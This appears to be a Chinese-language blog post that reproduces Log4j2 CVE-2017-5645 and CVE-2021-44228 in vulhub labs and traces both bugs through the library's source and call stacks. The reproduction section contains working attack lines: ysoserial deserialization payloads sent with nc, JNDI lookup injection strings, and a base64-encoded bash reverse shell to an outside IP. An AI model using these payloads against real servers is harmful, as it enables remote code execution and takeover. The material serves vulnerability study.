+++
title= "Log4j2反序列化漏洞"
slug= "log4j2-deserialization-vuln"
description= "核弹级漏洞感觉全是巧合"
date= "2025-10-11T20:11:27+08:00"
lastmod= "2025-10-11T20:11:27+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

在P牛的学习文档的帮助下，走了一遍基础，现在准备看看危害（当时）极高的log4j漏洞，我一进去搜索就看到有些人说是log4j，又有些人说是log4j2，迷迷糊糊的，查了一下资料知道网上广泛讨论的Log4j漏洞（如CVE-2021-44228）实际上是指Log4j2的漏洞 ，而非旧的Log4j 1.x版本。

## 漏洞利用

先安装P牛的漏洞包进行利用复现

```bash
git clone https://github.com/vulhub/vulhub.git
```

### CVE-2017-5645

```bash
cd CVE-2017-5645
docker compose up -d
```

搭建好环境之后尝试利用，观察到开启4712端口服务，发送反序列化数据

```bash
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/baozongwi" | nc 154.36.152.109 4712

java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNTQuMzYuMTUyLjEwOS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" | nc 154.36.152.109 4712
```





### CVE-2021-44228

访问靶机8983端口



先进行DNS探测

```bash
/solr/admin/cores?action=${jndi:ldap://zfvfqa2m.requestrepo.com}
```



探测成功，尝试反序列化

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/baozongwi" -A "154.36.152.109"

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNTQuMzYuMTUyLjEwOS80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}" -A "154.36.152.109"
```





## 漏洞分析

### CVE-2017-5645

Apache Log4j 2.0-alpha1 至 2.8.1

当目标开启了Log4j 的 **TCP/UDP 日志接收功能**，默认端口为4712时，直接对数据进行反序列化。

这个漏洞其实和cve-2019-17571很像（倒翻天罡），我使用的8u211

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>log4j-2.x-rce</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <log4j.version>2.8.1</log4j.version>
        <commons-collections.version>3.2.2</commons-collections.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>${log4j.version}</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>${log4j.version}</version>
        </dependency>
        
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>${commons-collections.version}</version>
        </dependency>
    </dependencies>
</project>
// src/main/java/Log4jSocketServer.java
import org.apache.logging.log4j.core.net.server.ObjectInputStreamLogEventBridge;
import org.apache.logging.log4j.core.net.server.TcpSocketServer;

import java.io.IOException;
import java.io.ObjectInputStream;

public class Log4jSocketServer {
    public static void main(String[] args){
        TcpSocketServer<ObjectInputStream> myServer = null;
        try{
            myServer = new TcpSocketServer<ObjectInputStream>(4712, new ObjectInputStreamLogEventBridge());
        } catch(IOException e){
            e.printStackTrace();
        }
        myServer.run();
    }
}
```

启动之后有警告，不用管，先测试看看能不能利用

```java
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/baozongwi" | nc localhost 4712

java -jar ysoserial-all.jar CommonsCollections5 "open -a Calculator" | nc localhost 4712
```

成功，



现在来查看为什么会反序列化，看到代码主要就两个类，TcpSocketServer 和 ObjectInputStreamLogEventBridge，调试一下，跟进到`TcpSocketServer#run`

```java
public void run() {
        EntryMessage entry = this.logger.traceEntry();

        while(this.isActive()) {
            if (this.serverSocket.isClosed()) {
                return;
            }

            try {
                this.logger.debug("Listening for a connection {}...", this.serverSocket);
                Socket clientSocket = this.serverSocket.accept();
                this.logger.debug("Acepted connection on {}...", this.serverSocket);
                this.logger.debug("Socket accepted: {}", clientSocket);
                clientSocket.setSoLinger(true, 0);
                TcpSocketServer<T>.SocketHandler handler = new SocketHandler(clientSocket);
                this.handlers.put(handler.getId(), handler);
                handler.start();
            } catch (IOException e) {
                if (this.serverSocket.isClosed()) {
                    this.logger.traceExit(entry);
                    return;
                }

                this.logger.error("Exception encountered on accept. Ignoring. Stack trace :", e);
            }
        }
```

初始化`SocketHandler`类之后，`handler.start();`会触发`SocketHandler.run`

```java
public void run() {
            EntryMessage entry = TcpSocketServer.this.logger.traceEntry();
            boolean closed = false;

            try {
                try {
                    while(!this.shutdown) {
                        TcpSocketServer.this.logEventInput.logEvents(this.inputStream, TcpSocketServer.this);
                    }
                } catch (EOFException var9) {
                    closed = true;
                } catch (OptionalDataException e) {
                    TcpSocketServer.this.logger.error("OptionalDataException eof=" + e.eof + " length=" + e.length, e);
                } catch (IOException e) {
                    TcpSocketServer.this.logger.error("IOException encountered while reading from socket", e);
                }

                if (!closed) {
                    Closer.closeSilently(this.inputStream);
                }
            } finally {
                TcpSocketServer.this.handlers.remove(this.getId());
            }

            TcpSocketServer.this.logger.traceExit(entry);
        }
```

也就到了`TcpSocketServer.this.logEventInput.logEvents`

```java
public void logEvents(ObjectInputStream inputStream, LogEventListener logEventListener) throws IOException {
        try {
            logEventListener.log((LogEvent)inputStream.readObject());
        } catch (ClassNotFoundException e) {
            throw new IOException(e);
        }
    }
```

这里有`readObject()`方法进行反序列化，也就是整条gadget了

CC5利用链调用栈如下

```java
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:157)
at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:74)
at org.apache.commons.collections.keyvalue.TiedMapEntry.toString(TiedMapEntry.java:132)
at javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:86)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at org.apache.logging.log4j.core.net.server.ObjectInputStreamLogEventBridge.logEvents(ObjectInputStreamLogEventBridge.java:35)
at org.apache.logging.log4j.core.net.server.ObjectInputStreamLogEventBridge.logEvents(ObjectInputStreamLogEventBridge.java:29)
at org.apache.logging.log4j.core.net.server.TcpSocketServer$SocketHandler.run(TcpSocketServer.java:85)
```

### CVE-2021-44228

Apache Log4j 2 的 2.0 到 2.14.1

Log4j2框架的 Lookup 查询服务提供了动态解析`**${}**`表达式的能力，但未对解析内容进行严格限制，导致攻击者可通过构造恶意JNDI注入 payload（如`**${jndi:ldap://恶意IP/Exploit.class}**`）实现远程代码执行。当系统记录含该payload的日志时，Log4j2 会主动请求攻击者控制的 LDAP 服务，下载并执行恶意`.class`文件，最终造成服务器被完全控制（如反弹shell）。该漏洞(CVE-2021-44228)本质是Lookup 功能与 JNDI 服务的危险组合，使得日志记录这一基础功能成为攻击入口。

如果在相应协议里面都没有找到资源，就会到http服务去寻找。其次是需要注意jdk版本，我使用的是 8u20，JDK还没开启JNDI的防护。pom.xml 不需要修改，满足版本。

环境搭建，漏洞代码如下

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTEst {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(Log4jTEst.class);
        logger.error("${jndi:ldap://4b0d5qbh.requestrepo.com}");
    }
}
```

然后开始调试，没错，慢慢跟进

```java
at org.apache.logging.log4j.core.pattern.MessagePatternConverter.format(MessagePatternConverter.java:111)
at org.apache.logging.log4j.core.pattern.PatternFormatter.format(PatternFormatter.java:38)
at org.apache.logging.log4j.core.layout.PatternLayout$PatternSerializer.toSerializable(PatternLayout.java:333)
at org.apache.logging.log4j.core.layout.PatternLayout.toText(PatternLayout.java:232)
at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:217)
at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:57)
at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.directEncodeEvent(AbstractOutputStreamAppender.java:177)
at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.tryAppend(AbstractOutputStreamAppender.java:170)
at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.append(AbstractOutputStreamAppender.java:161)
at org.apache.logging.log4j.core.config.AppenderControl.tryCallAppender(AppenderControl.java:156)
at org.apache.logging.log4j.core.config.AppenderControl.callAppender0(AppenderControl.java:129)
at org.apache.logging.log4j.core.config.AppenderControl.callAppenderPreventRecursion(AppenderControl.java:120)
at org.apache.logging.log4j.core.config.AppenderControl.callAppender(AppenderControl.java:84)
at org.apache.logging.log4j.core.config.LoggerConfig.callAppenders(LoggerConfig.java:448)
at org.apache.logging.log4j.core.config.LoggerConfig.processLogEvent(LoggerConfig.java:433)
at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:417)
at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:403)
at org.apache.logging.log4j.core.config.AwaitCompletionReliabilityStrategy.log(AwaitCompletionReliabilityStrategy.java:63)
at org.apache.logging.log4j.core.Logger.logMessage(Logger.java:146)
at org.apache.logging.log4j.spi.AbstractLogger.logMessageSafely(AbstractLogger.java:2091)
at org.apache.logging.log4j.spi.AbstractLogger.logMessage(AbstractLogger.java:1988)
at org.apache.logging.log4j.spi.AbstractLogger.logIfEnabled(AbstractLogger.java:1960)
at org.apache.logging.log4j.spi.AbstractLogger.error(AbstractLogger.java:723)
at Log4jTEst.main(Log4jTEst.java:7)
```

我没想到居然这么深，现在到了 format

```java
public void format(LogEvent event, StringBuilder toAppendTo) {
        Message msg = event.getMessage();
        if (msg instanceof StringBuilderFormattable) {
            boolean doRender = this.textRenderer != null;
            StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;
            StringBuilderFormattable stringBuilderFormattable = (StringBuilderFormattable)msg;
            int offset = workingBuilder.length();
            stringBuilderFormattable.formatTo(workingBuilder);
            if (this.config != null && !this.noLookups) {
                for(int i = offset; i < workingBuilder.length() - 1; ++i) {
                    if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                        String value = workingBuilder.substring(offset, workingBuilder.length());
                        workingBuilder.setLength(offset);
                        workingBuilder.append(this.config.getStrSubstitutor().replace(event, value));
                    }
                }
            }

            if (doRender) {
                this.textRenderer.render(workingBuilder, toAppendTo);
            }

        } else {
            if (msg != null) {
                String result;
                if (msg instanceof MultiformatMessage) {
                    result = ((MultiformatMessage)msg).getFormattedMessage(this.formats);
                } else {
                    result = msg.getFormattedMessage();
                }

                if (result != null) {
                    toAppendTo.append(this.config != null && result.contains("${") ? this.config.getStrSubstitutor().replace(event, result) : result);
                } else {
                    toAppendTo.append("null");
                }
            }

        }
    }
```

负责处理日志消息的格式化和 JNDI 查找，我们主要看JNDI查找部分，会进行`$`以及`{`的匹配，为什么是这两个符号呢，因为这么写可以解决嵌套`${}`或循环引用的问题。接着跟进到 substitute

```java
private int substitute(LogEvent event, StringBuilder buf, int offset, int length, List<String> priorVariables) {
        StrMatcher prefixMatcher = this.getVariablePrefixMatcher();
        StrMatcher suffixMatcher = this.getVariableSuffixMatcher();
        char escape = this.getEscapeChar();
        StrMatcher valueDelimiterMatcher = this.getValueDelimiterMatcher();
        boolean substitutionInVariablesEnabled = this.isEnableSubstitutionInVariables();
        boolean top = priorVariables == null;
        boolean altered = false;
        int lengthChange = 0;
        char[] chars = this.getChars(buf);
        int bufEnd = offset + length;
        int pos = offset;

        while(pos < bufEnd) {
            int startMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd);
            if (startMatchLen == 0) {
                ++pos;
            } else if (pos > offset && chars[pos - 1] == escape) {
                buf.deleteCharAt(pos - 1);
                chars = this.getChars(buf);
                --lengthChange;
                altered = true;
                --bufEnd;
            } else {
                int startPos = pos;
                pos += startMatchLen;
                int endMatchLen = 0;
                int nestedVarCount = 0;

                while(pos < bufEnd) {
                    if (substitutionInVariablesEnabled && (endMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd)) != 0) {
                        ++nestedVarCount;
                        pos += endMatchLen;
                    } else {
                        endMatchLen = suffixMatcher.isMatch(chars, pos, offset, bufEnd);
                        if (endMatchLen == 0) {
                            ++pos;
                        } else {
                            if (nestedVarCount == 0) {
                                String varNameExpr = new String(chars, startPos + startMatchLen, pos - startPos - startMatchLen);
                                if (substitutionInVariablesEnabled) {
                                    StringBuilder bufName = new StringBuilder(varNameExpr);
                                    this.substitute(event, bufName, 0, bufName.length());
                                    varNameExpr = bufName.toString();
                                }

                                pos += endMatchLen;
                                String varName = varNameExpr;
                                String varDefaultValue = null;
                                if (valueDelimiterMatcher != null) {
                                    char[] varNameExprChars = varNameExpr.toCharArray();
                                    int valueDelimiterMatchLen = 0;

                                    for(int i = 0; i < varNameExprChars.length && (substitutionInVariablesEnabled || prefixMatcher.isMatch(varNameExprChars, i, i, varNameExprChars.length) == 0); ++i) {
                                        if ((valueDelimiterMatchLen = valueDelimiterMatcher.isMatch(varNameExprChars, i)) != 0) {
                                            varName = varNameExpr.substring(0, i);
                                            varDefaultValue = varNameExpr.substring(i + valueDelimiterMatchLen);
                                            break;
                                        }
                                    }
                                }

                                if (priorVariables == null) {
                                    priorVariables = new ArrayList();
                                    priorVariables.add(new String(chars, offset, length + lengthChange));
                                }

                                this.checkCyclicSubstitution(varName, priorVariables);
                                priorVariables.add(varName);
                                String varValue = this.resolveVariable(event, varName, buf, startPos, pos);
                                if (varValue == null) {
                                    varValue = varDefaultValue;
                                }

                                if (varValue != null) {
                                    int varLen = varValue.length();
                                    buf.replace(startPos, pos, varValue);
                                    altered = true;
                                    int change = this.substitute(event, buf, startPos, varLen, priorVariables);
                                    change += varLen - (pos - startPos);
                                    pos += change;
                                    bufEnd += change;
                                    lengthChange += change;
                                    chars = this.getChars(buf);
                                }

                                priorVariables.remove(priorVariables.size() - 1);
                                break;
                            }

                            --nestedVarCount;
                            pos += endMatchLen;
                        }
                    }
                }
            }
        }

        if (top) {
            return altered ? 1 : 0;
        } else {
            return lengthChange;
        }
    }
```

看着很复杂，总结一下，这个方法实际上就是`${jndi:xxx}`这类表达式 ，同时通过递归和状态管理解决嵌套变量的问题，可以一步步看表达式的处理，处理好之后看到 resolveVariable 之后被执行（DNS网站多了一个回显），跟进 resolveVariable



跟进之后再跟到 lookup

```java
public String lookup(LogEvent event, String var) {
        if (var == null) {
            return null;
        } else {
            int prefixPos = var.indexOf(58);
            if (prefixPos >= 0) {
                String prefix = var.substring(0, prefixPos).toLowerCase(Locale.US);
                String name = var.substring(prefixPos + 1);
                StrLookup lookup = (StrLookup)this.lookups.get(prefix);
                if (lookup instanceof ConfigurationAware) {
                    ((ConfigurationAware)lookup).setConfiguration(this.configuration);
                }

                String value = null;
                if (lookup != null) {
                    value = event == null ? lookup.lookup(name) : lookup.lookup(event, name);
                }

                if (value != null) {
                    return value;
                }

                var = var.substring(prefixPos + 1);
            }

            if (this.defaultLookup != null) {
                return event == null ? this.defaultLookup.lookup(var) : this.defaultLookup.lookup(event, var);
            } else {
                return null;
            }
        }
    }
```

这个方法会对`${jndi:ldap://attacker.com}`表达式进行处理，提取 jndi 调用`JndiLookup.lookup("ldap://attacker.com")`，再继续跟进

```java
public String lookup(LogEvent event, String key) {
        if (key == null) {
            return null;
        } else {
            String jndiName = this.convertJndiName(key);

            try (JndiManager jndiManager = JndiManager.getDefaultManager()) {
                Object value = jndiManager.lookup(jndiName);
                String var7 = value == null ? null : String.valueOf(value);
                return var7;
            } catch (NamingException e) {
                LOGGER.warn(LOOKUP, "Error looking up JNDI resource [{}].", jndiName, e);
                return null;
            }
        }
    }
```

调用`jndiManager.lookup("ldap://attacker.com"`

```java
public <T> T lookup(String name) throws NamingException {
        return (T)this.context.lookup(name);
    }
```

发起远程请求，解析恶意类。完整调用栈

```java
at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:129)
at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:54)
at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:183)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1054)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:976)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:872)
at org.apache.logging.log4j.core.lookup.StrSubstitutor.replace(StrSubstitutor.java:427)
at org.apache.logging.log4j.core.pattern.MessagePatternConverter.format(MessagePatternConverter.java:127)
at org.apache.logging.log4j.core.pattern.PatternFormatter.format(PatternFormatter.java:38)
at org.apache.logging.log4j.core.layout.PatternLayout$PatternSerializer.toSerializable(PatternLayout.java:333)
at org.apache.logging.log4j.core.layout.PatternLayout.toText(PatternLayout.java:232)
at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:217)
at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:57)
at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.directEncodeEvent(AbstractOutputStreamAppender.java:177)
at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.tryAppend(AbstractOutputStreamAppender.java:170)
at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.append(AbstractOutputStreamAppender.java:161)
at org.apache.logging.log4j.core.config.AppenderControl.tryCallAppender(AppenderControl.java:156)
at org.apache.logging.log4j.core.config.AppenderControl.callAppender0(AppenderControl.java:129)
at org.apache.logging.log4j.core.config.AppenderControl.callAppenderPreventRecursion(AppenderControl.java:120)
at org.apache.logging.log4j.core.config.AppenderControl.callAppender(AppenderControl.java:84)
at org.apache.logging.log4j.core.config.LoggerConfig.callAppenders(LoggerConfig.java:448)
at org.apache.logging.log4j.core.config.LoggerConfig.processLogEvent(LoggerConfig.java:433)
at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:417)
at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:403)
at org.apache.logging.log4j.core.config.AwaitCompletionReliabilityStrategy.log(AwaitCompletionReliabilityStrategy.java:63)
at org.apache.logging.log4j.core.Logger.logMessage(Logger.java:146)
at org.apache.logging.log4j.spi.AbstractLogger.logMessageSafely(AbstractLogger.java:2091)
at org.apache.logging.log4j.spi.AbstractLogger.logMessage(AbstractLogger.java:1988)
at org.apache.logging.log4j.spi.AbstractLogger.logIfEnabled(AbstractLogger.java:1960)
at org.apache.logging.log4j.spi.AbstractLogger.error(AbstractLogger.java:723)
at Log4jTEst.main(Log4jTEst.java:7)
```

